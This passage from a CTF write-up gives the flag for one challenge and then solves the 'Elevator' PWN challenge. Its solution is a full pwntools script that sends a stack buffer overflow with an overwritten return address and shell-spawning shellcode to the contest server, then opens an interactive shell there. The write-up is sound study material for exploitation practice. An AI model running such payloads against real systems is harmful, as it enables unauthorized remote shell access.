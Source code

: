 ### Flag

`FindITCTF{manc1n9_m4n14K}`

# PWN

## Elevator

### Description

Use the elevator and convince everyone you are the admin.

### Solution

We’re given the binary, to make it easier im using dogbolt to decompile it:

![Untitled](FinditCTF%202024%20f1afe1fa67b14654b02a96d46a2eac51/Untitled%201.png)

Also using checksec very straightforward there is no protection for shellcode, so we can inject shellcode after buffer overflow i notice the buffer is 1032 and + 4 to close ebp so it will be 1036, here is my shellcode script:

```jsx
from pwn import *

HOST = "103.191.63.187"
PORT = "5000"
r = remote(HOST, PORT)
r.recvuntil(b'How are you?: \n\n')

context.binary = ELF('./admin')

# p = process()
offset = 1036
payload = b''
payload += offset*b'A'
payload += p32(0x08049199)
payload += asm(shellcraft.sh())
print(payload)
log.info(r.clean())

r.sendline(payload)
r.interactive()
```